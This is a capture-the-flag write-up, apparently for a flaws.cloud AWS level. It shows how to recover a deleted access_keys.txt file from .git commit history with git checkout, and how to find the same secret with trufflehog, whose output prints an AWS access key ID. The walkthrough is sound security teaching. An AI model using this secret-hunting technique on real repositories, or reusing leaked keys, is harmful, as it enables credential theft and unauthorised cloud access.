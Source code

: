 
## Level 3 - Hunting Keys in .Git Repository

```
fog@cloudbreach:~/flaws/level3$ git log master
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61 (HEAD)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

Sometimes, developpers mess up by committing sensitive information like **passwords** or **API keys**. While they might rectify their mistake right away, all previous versions of the repository are stored in `.git/` and identified with a **commit hash**.

To find out what `scott@summitroute.com` committed to the repository, we just need to use the `git checkout` command.

``` 
fog@cloudbreach:~/flaws/level3$ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
M	index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

fog@cloudbreach:~/flaws/level3$ ll
total 168
drwxrwxr-x 3 fog fog   4096 Dec 13 01:16 ./
drwxrwxr-x 6 fog fog   4096 Dec 13 00:51 ../
-rw-rw-r-- 1 fog fog     91 Dec 13 01:16 access_keys.txt    <-- !!!
drwxrwxr-x 7 fog fog   4096 Dec 13 01:16 .git/
-rw-rw-r-- 1 fog fog   1552 Dec  8 02:44 hint1.html
-rw-rw-r-- 1 fog fog   1426 Dec  8 02:44 hint2.html
-rw-rw-r-- 1 fog fog   1247 Dec  8 02:44 hint3.html
-rw-rw-r-- 1 fog fog   1035 Dec  8 02:44 hint4.html
-rw-rw-r-- 1 fog fog   1861 Dec  8 02:44 index.html
-rw-rw-r-- 1 fog fog     26 Dec  8 02:44 robots.txt

```

Of course, in this example we are playing with a very scarce `.git/` repo. In practice, we could leverage tools like [`trufflehog`](https://github.com/trufflesecurity/trufflehog) to help us find interesting data (also [see](/aws/enumeration/#search-for-secrets-in-s3-buckets))

```
fog@cloudbreach:~/flaws/level3$ cat trufflehog_output.txt 
trufflehog dev
Found verified result 🐷🔑
Detector Type: AWS
Decoder Type: PLAIN
Raw result: AKIAJ366LIPB4IJKT7SA
Commit: f52ec03b227ea6094b04e43f475fb0126edb5a61
File: access_keys.txt
Email: 0xdabbad00 <scott@summitroute.com>
Timestamp: 2017-09-17 09:10:07 -0600 -0600
Line: 1
```
